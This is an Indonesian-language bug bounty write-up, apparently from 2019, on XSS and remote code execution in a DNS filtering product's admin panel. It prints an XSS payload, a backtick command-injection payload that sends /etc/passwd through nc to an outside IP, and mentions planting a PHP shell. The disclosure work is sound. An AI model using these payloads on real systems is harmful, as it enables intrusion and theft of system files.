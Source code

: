 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Netpurifier Private Bug Bounty"
date: 2019-02-14 07:00
categories: bugbounty
---
```

<div align="center" style="background-color:black">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/logo.png?raw=true">
</div>

### <b>Prolog</b>
[Netpurifier](https://netpurifier.id/) adalah merek lain dari DNS Bersih (DNSB) untuk pasar Internasional. Netpurifier menawarkan beberapa produk dan jasa, termasuk didalamnya DNS Filtering yang disediakan gratis untuk umum. Pada kesempatan kali ini saya akan share writeup private bug bounty untuk produk DNS Filter dari Cyber Army Indonesia. Diberikan 2 alamat yang masuk dalam scope, yaitu  kominfo.demo.netpurifier.id dan trust.netpurifier.id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap trust.netpurifier.id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/2019-02-14%2009_34_57-siti@master_%20~.png?raw=true">
</div>


Saat saya buka trust.netpurifier.id:8010, disana terdapat form login yang setelah saya tanyakan credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/XSS%20POST%202/2019-02-11%2022_50_24-trust-demo%20-%20DNSBSE.png?raw=true">
</div>


### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_33_38-siti@master_%20~_exploit.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc 128.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_29_29-siti@master_%20~_exploit.png?raw=true">
</div>
Lalu saya buat shell php dan eksekusi ls -lah, dan selebihnya saya dapat explorasi server lebih dalam:

RIP SS :v 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/IMG_0167.JPG?raw=true">
</div>


`
- 11 February Send Report
- 12 February Valoidation
- 13 February disclose
- Rewarded
`

Reference:
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f